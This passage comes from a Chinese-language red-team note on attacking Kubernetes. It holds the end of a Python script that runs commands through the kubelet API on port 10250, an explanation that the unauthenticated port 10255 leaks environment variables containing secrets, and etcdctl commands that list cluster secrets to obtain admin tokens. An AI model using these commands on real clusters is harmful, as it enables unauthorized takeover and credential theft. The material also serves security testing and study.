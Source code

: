 ```java
            "cmd":cmd
        }
        r=requests.post(url=url,headers=headers,verify=False,timeout=10,data=data)
        print("===========命令执行结果=============")
        print(r.text)
        print("====================================\n\n")

    
if __name__ == '__main__':
    
    
    
    parser = argparse.ArgumentParser(description='')
    parser.add_argument('-u', type=str, help='ip:127.0.0.1')
    parser.add_argument('-p', type=str, help='端口:10250')
    args = parser.parse_args()

    
    result=exp_go(args.u,args.p)
```

<a name="VNwR8"></a>
### 10255端口
由于这里 10250 鉴权当前的 Kubernetes 设计是默认安全的，所以 10255 的开放就可能更加容易在红蓝对抗中起到至关重要的作用。10255 本身为只读端口，虽然开放之后默认不存在鉴权能力，无法直接利用在容器中执行命令，但是可以获取环境变量 ENV、主进程 CMDLINE 等信息，里面包含密码和秘钥等敏感信息的概率是很高的，可以快速帮我们在对抗中打开局面。

<a name="WfShl"></a>
## etcd未授权（常见2379端口
**etcd可以访问到k8s的集群token，可以通过未授权访问etcd获取k8s的管理员token从而掌控k8s集群**
<a name="nz9bC"></a>
### etcd授权的访问操作
安装etcdctl客户端命令行工具，有linux和windows版本<br />[https://github.com/etcd-io/etcd/releases/tag/v3.5.2](https://github.com/etcd-io/etcd/releases/tag/v3.5.2)<br />export ETCDCTL_API=3

认证证书都在/etc/kubernetes/pki/etcd路径下<br />root@master:/etc/kubernetes/pki/etcd# etcdctl --endpoints 127.0.0.1:2379 --cacert=ca.crt --cert=server.crt --key=server.key endpoint health   查看证书下能不能建立成功<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647923398441-aca281fd-3241-477e-afa8-e49a85bc421b.png#averageHue=%230a0704&clientId=ucc352e4d-560e-4&from=paste&height=152&id=u9327cf99&originHeight=202&originWidth=1225&originalType=binary&ratio=1&rotation=0&showTitle=false&size=35895&status=done&style=none&taskId=ud322827f-c7d5-4d4a-81a6-501bafb536a&title=&width=919)
```java
root@master:/etc/kubernetes/pki/etcd# etcdctl --endpoints 127.0.0.1:2379 --cacert=ca.crt --cert=server.crt --key=server.key get / --prefix --keys-only | grep /secrets/kube-system/clusterrole

/registry/secrets/kube-system/clusterrole-aggregation-controller-token-67jwz

```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647924020489-4da58eec-94a4-4248-9dc9-3928890a6f22.png#averageHue=%230b0705&clientId=ucc352e4d-560e-4&from=paste&height=61&id=u68767dbf&originHeight=81&originWidth=1219&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14846&status=done&style=none&taskId=u471f8434-136e-4e0b-bc35-30231be1c8b&title=&width=914)

etcdctl --endpoints 127.0.0.1:2379 --cacert=ca.crt --cert=server.crt --key=server.key get / --prefix --keys-only | grep /secrets/<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647926457744-df82f403-7f1a-46a2-baea-80dfbd06e9d5.png#averageHue=%230a0604&clientId=ucc352e4d-560e-4&from=paste&height=336&id=u1d4f72aa&originHeight=672&originWidth=1226&originalType=binary&ratio=1&rotation=0&showTitle=false&size=124222&status=done&style=none&taskId=ua935a24b-46ca-44d9-9586-5594473f711&title=&width=613)
